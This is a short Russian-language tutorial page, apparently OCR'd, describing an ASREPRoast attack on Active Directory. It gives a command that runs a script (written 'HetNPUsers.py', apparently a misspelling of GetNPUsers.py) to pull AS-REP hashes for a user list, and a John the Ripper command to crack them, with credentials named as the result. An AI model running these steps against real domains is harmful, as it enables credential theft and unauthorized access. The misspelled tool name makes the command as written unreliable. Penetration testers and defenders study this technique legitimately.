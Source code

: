 # **ASREPRoast**

**ASREPRoast attack guide**

**Инструкция:**

- Запускаем, указав формат для получаемых хэшей.

`# python3 HetNPUsers.py <domain.net> -userfile <users_list> -format john -outputfile <filename>`

- С помощью John The Ripper перебираем хэши.

`john <hash_file> -wordlist=<dictionary>`


**Результат:**

Учетные данные для аутентификации.
